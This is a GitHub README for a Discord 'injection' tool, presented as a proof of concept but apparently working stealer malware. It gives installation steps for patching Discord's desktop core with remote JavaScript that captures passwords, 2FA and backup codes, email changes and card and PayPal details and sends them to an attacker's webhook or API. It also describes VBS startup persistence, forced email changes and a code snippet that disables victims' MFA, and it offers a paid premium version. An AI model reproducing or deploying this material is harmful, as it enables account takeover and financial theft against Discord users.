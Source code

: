 
[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

# [Discord Injection][github-link]

Proof of Concept (PoC) for Intercepting HTTP Requests in Discord

</div>

## Overview

**Discord Injection** is a proof-of-concept tool designed to demonstrate the interception of HTTP requests within the Discord application. This PoC highlights potential vulnerabilities by capturing various critical actions and interactions within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [DiscordTokenGrabber](https://github.com/k4itrun/DiscordTokenGrabber). It's a free tool with extensive capabilities.


## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Contributing
We welcome your contributions to this project! If you have suggestions or improvements, please feel free to open an issue or submit a pull request with your changes. Your involvement from the community is highly valued.

If you’d like to support the development of this project, consider leaving a star ⭐ or making a donation. Every bit of support is greatly appreciated!

## Contact
For inquiries, reach out at [contact@w1sh.xyz](mailto:contact@w1sh.xyz) or join our [Discord Server][discord-server-link].

## License
This software is licensed under the [MIT License](LICENSE).

## Disclaimer
### Essential Advisory: This tool is for educational use only.
This tool is intended for educational purposes only. Misuse will not be supported, and by using it, you agree to these terms.

### User Accountability:
By using this tool, you accept full responsibility for your actions. Misuse of this software is prohibited, and the creator disclaims any liability. Ensure your usage complies with all relevant laws.

### No Assistance:
The creator will not provide support or address misuse. Inquiries related to harmful use will be ignored.

### Terms Acceptance:
By using this tool, you agree to this disclaimer. If you do not agree, refrain from using the software.